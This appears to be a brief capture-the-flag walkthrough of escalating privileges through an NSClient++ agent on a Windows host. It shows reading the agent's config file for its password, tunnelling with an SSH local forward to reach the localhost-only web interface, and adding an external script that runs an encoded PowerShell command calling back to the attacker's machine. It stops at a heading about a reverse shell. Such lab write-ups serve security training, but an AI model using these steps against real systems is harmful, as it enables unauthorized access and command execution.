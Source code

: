 
## Examine NSCLIENT

NSCLIENT is an agent that allows to run commands on a host from a web interface

Examining configuration :\


```
type C:\Progra~1\NSClient++\nsclient.ini

password = ew2x...X0T
allowed hosts = 127.0.0.1
```

-> We can see that the connection is only allowed from localhost and we get the password

Other way to get the password

```
nscp.exe web -- password --display
ew2x...X0T
```

-> Try to login from the main interface on 8443 (Failed)

## Set up SSH Local Forward

```
nadine@SERVMON C:\Users\Nadine>
// Type ~ to enter in SSH Mode
ssh> -L 8443:127.0.0.1:8443

```

Browse to https://127.0.0.1:8443 with Password and -> OK !

Use Chrome and not Firefox

## Use NSClient interface&#x20;

Settings > external scripts > scripts > Add new > Reload

Queries > Run

Script used for test in pleasesub.bat :

```
powershell -enc "ping to our box encoded in base64"
```

On our box :&#x20;

```
sudo tcpdump -i tun0 icmp
```

-> OK ping is triggered by the schedule task

## Try to set a reverse shell
